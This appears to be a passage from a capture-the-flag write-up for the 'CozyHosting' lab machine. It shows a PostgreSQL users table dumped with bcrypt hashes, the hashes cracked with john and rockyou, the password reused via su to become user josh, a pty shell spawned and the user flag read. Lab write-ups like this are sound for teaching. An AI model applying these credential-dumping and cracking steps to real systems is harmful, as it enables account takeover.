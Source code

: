 ```
```

Success, now let's search more.

We find a users table in the cozyhosting database containing the `"admin"` password and `"kanderson"` password. These are hashed so we must unhash them.

```
\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\d
List of relations
Schema | Name | Type | Owner
--------+--------------+----------+----------
public | hosts | table | postgres
public | hosts_id_seq | sequence | postgres
public | users | table | postgres
(3 rows)
select * from users;
name | password | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

To unhash, I save the passwords to hash.txt and run them on john (a new tool to me so wanted to try it). Using ChatGPT, I determined what type of encryption the hash is. It is encrypted with bcrypt.

Using john to crack the hashes, it found one password I can try `"manchesterunited"`.

```
-[Thu Feb 29-10:50:39]-[table@parrot]-
-[~]$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
```

I tried to log in to the web portal as `"admin"` with that password. No luck. I noticed a user directory in the `/home` folder named josh. I try to login as josh with `su josh`:

```
app@cozyhosting:/$ cd /home
cd /home
app@cozyhosting:/home$ ls
ls
josh
app@cozyhosting:/home$ su josh
su josh
Password: manchesterunited
python3 -c 'import pty; pty.spawn("/bin/bash")'
josh@cozyhosting:~$ ls
ls
user.txt
josh@cozyhosting:~$ cat user.txt
cat user.txt
70ed2ab8d4ac574e826b6dd914267bc9
User flag = 70ed2ab8d4ac574e826b6dd914267bc9
```
